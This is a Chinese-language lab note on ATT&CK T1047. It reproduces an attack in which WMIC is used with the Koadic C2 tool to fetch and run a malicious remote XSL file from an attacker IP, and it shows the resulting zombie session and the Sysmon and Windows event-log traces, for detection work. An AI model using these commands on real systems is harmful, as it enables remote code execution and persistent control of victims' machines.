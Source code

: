 # T1047-win-基于白名单WMIC执行payload

## 来自ATT&CK的描述

WMI（Windows Management Instrumentation）是Windows管理功能，它为本地和远程访问windows系统组件提供了统一的环境。它依赖WMI服务来进行本地和远程访问，以及SMB（服务器消息块）和RPCS（远程过程调用服务）来进行远程访问。RPCS通过端口135运行。

攻击者可能会使用WMI与本地和远程系统交互，也可能使用WMI来执行许多策略功能，例如为发现收集信息和远程执行文件来横向移动。

## 测试案例

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\wbem\wmic.exe
C:\WINDOWS\SysWOW64\wbem\wmic.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\wbem\WMIC.exe
C:\Windows\SysWOW64\wbem\WMIC.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### Koadic

通过Koadic发起Wmic.exe攻击

koadic是一个命令控制（C2）工具，类似Metasploit和Powershell Empire。使用koadic我们生成恶意XSL文件。koadic安装完成后，您可以运行./koadic 文件以启动 koadic，然后通过运行以下命令开始加载stager/js/wmic 程序，并将 SRVHOST 设置为程序回连IP。

```bash
git clone https://github.com/zerosum0x0/koadic.git  #安装命令
cd koadic
pip3 install -r requirements.txt
```

```bash
#加载载荷
./koadic
(koadic: sta/js/mshta)# use stager/js/wmic
(koadic: sta/js/wmic)# set SRVHOST 192.168.126.146
[+] SRVHOST => 192.168.126.146
(koadic: sta/js/wmic)# run
[+] Spawned a stager at http://192.168.126.146:9996/6G69i.xsl
[>] wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

#### 靶机执行payload

执行 WMIC 以下命令，从远程服务器下载和运行恶意XSL文件：

```cmd
wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

靶机测试结果

```dos
C:\Users\12306Br0>wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"12306BR0-PCroot\cimv2roo
t\cliIMPERSONATEPKTPRIVACYms_804ENABLEOFFN/AOFFOFFSTDOUTSTDOUTN/AON\Device\Hardd
iskVolume17601Multiprocessor FreeMicrosoft Windows 7 旗舰版 93686Win32_Operating
SystemWin32_ComputerSystemService Pack 112306BR0-PC480TRUETRUETRUE2FALSEFALSE256
29608362009844309911620200305144428.000000+48020200305151330.500000+480202004171
72815.995000+4800804Microsoft Corporation-18589934464zh-CNMicrosoft Windows 7 旗
舰版 |C:\Windows|\Device\Harddisk0\Partition2422164-bit205225618TRUE112306Br0004
26-292-0000007-85792102343416OK272\Device\HarddiskVolume2C:\Windows\system32C:44
4004820966326.1.7601C:\Windows
```

#### 反弹shell

一旦恶意的XSL文件在目标计算机上执行，你将有一个僵尸连接，就像Metasploit回连的情况一样。

```bash
[+] Zombie 0: Staging new connection (192.168.126.149) on Stager 0
[+] Zombie 0: 12306Br0-PC\12306Br0 @ 12306BR0-PC -- Windows 7 Ultimate
[!] Zombie 0: Timed out.
[+] Zombie 0: Re-connected.
(koadic: sta/js/wmic)# zombies 0

        ID:                     0
        Status:                 Alive
        First Seen:             2020-04-17 17:28:31
        Last Seen:              2020-04-17 17:29:04
        Listener:               0

        IP:                     192.168.126.149
        User:                   12306Br0-PC\12306Br0
        Hostname:               12306BR0-PC
        Primary DC:             Unknown
        OS:                     Windows 7 Ultimate
        OSBuild:                7601
        OSArch:                 64
        Elevated:               No

        User Agent:             Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
        Session Key:            02149f1202e3437ab7932672c0c9e6b5

        JOB  NAME                            STATUS    ERRNO
        ---- ---------                       -------   -------
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\wbem\WMIC.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: WMI Commandline Utility
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: wmic.exe
CommandLine: wmic  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x888
新进程名: 'C:\Windows\System32\wbem\WMIC.exe'
```

## 检测规则/思路

无具体检测规则。

## 相关TIP

[[T1047-win-通过WMIC创建远程进程]]

## 参考推荐

MITRE-ATT&CK-T1047:<https://attack.mitre.org/techniques/T1047/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
